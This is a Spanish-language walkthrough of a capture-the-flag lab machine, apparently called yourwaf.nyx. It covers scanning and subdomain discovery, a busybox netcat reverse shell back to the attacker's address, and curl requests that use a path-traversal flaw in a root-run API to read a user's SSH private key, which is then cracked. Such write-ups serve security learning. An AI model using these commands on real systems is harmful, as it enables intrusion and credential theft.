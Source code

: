 Hacemos el escaneo con nmap:
![[Pasted image 20240612173148.png]]
Si ponemos el puerto 80 en el navegador, vemos que se nos muestra un dominio:
![[Pasted image 20240612173247.png]]
Lo añadimos en el /etc/hosts:
![[Pasted image 20240612173327.png]]
Y la web ya carga correctamente:
![[Pasted image 20240612173341.png]]
Y si miramos el puerto 3000, vemos que no estamos autorizados:
![[Pasted image 20240612173457.png]]
Vamos a intentar encontrar algún subdominio de yourwaf.nyx:

Y encontramos el subdominio de maintenance.yourwaf.nyx:
![[Pasted image 20240612175425.png]]
Pero si intentamos lanzar una reverse shell, vemos que no tenemos permiso para recibirla, lo cual significa que probablemente haya un firewall:
![[Pasted image 20240612175549.png]]
Vamos a probar con la reverse shell de busybox:
```bash
busybox nc 192.168.0.28 443 -e bash
```
![[Pasted image 20240612175930.png]]
![[Pasted image 20240612175940.png]]
Una vez dentro, ejecutamos pspy para ver si hay algo corriendo en segundo plano, donde vemos un script llamado copylogs.sh:
![[Pasted image 20240612180251.png]]
Este es el contenido del script:
![[Pasted image 20240612180323.png]]
Y vemos que root ejecuta de forma automática un server.js:
![[Pasted image 20240612180613.png]]
Y este es el contenido, donde levanta por el puerto 3000 un servicio HTTP usando una apiToken, donde vemos que recibe con /readfile la apiToken:
![[Pasted image 20240612181116.png]]
![[Pasted image 20240612180650.png]]
Por lo que lanzamos con curl la siguiente petición pasandole la API al readfile:
```bash
curl 'http://192.168.0.44:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d'
```
Y vemos que funciona:
![[Pasted image 20240612181858.png]]
Tras varias pruebas, vemos que podemos leer el id_rsa:
```bash
curl "http://192.168.0.44:3000/readfile?file=../../../../../../../../home/tester/.ssh/id_rsa&api-token=8c2b6a304191b8e2d81aaa5d1131d83d"
```
![[Pasted image 20240612182031.png]]
Y crackeamos dicho archivo:
![[Pasted image 20240612182954.png]]

